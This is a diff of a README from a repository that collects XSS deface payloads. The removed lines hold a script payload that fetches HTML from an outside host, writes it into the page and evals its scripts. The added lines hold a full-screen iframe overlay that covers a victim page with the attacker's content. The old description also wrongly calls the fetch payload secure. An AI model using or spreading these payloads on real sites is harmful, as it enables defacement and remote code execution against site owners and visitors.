

Before and after one commit to Karthikdude/Deface, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -5,19 +5,14 @@ This repository contains various XSS (Cross-Site Scripting) deface payloads that
 
 
 
-### Using with Fetch API
+### Full-Screen Iframe Injection
 
 ```html
-<script>
- fetch('https://karthikdude.github.io/Deface/')
-  .then(response => response.text()) .then(html =>
- { document.body.innerHTML = html;
- const scripts = document.body.getElementsByTagName('script');
-  for (let script of scripts) { eval(script.innerText); } });
-</script>
+<iframe src="https://karthikdude.github.io/Deface/" style="position:fixed; top:0; left:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:9999;"></iframe>
 ```
 
-**Details:** This payload fetches an external JavaScript file While this is a  secure approach, it is effective in environments where execution of external scripts is needed.
+**Details:**
+This payload embeds a full-screen iframe pointing to `https://karthikdude.github.io/Deface/`. The styling ensures it occupies the entire viewport with the following features:
 
 ---
 
````
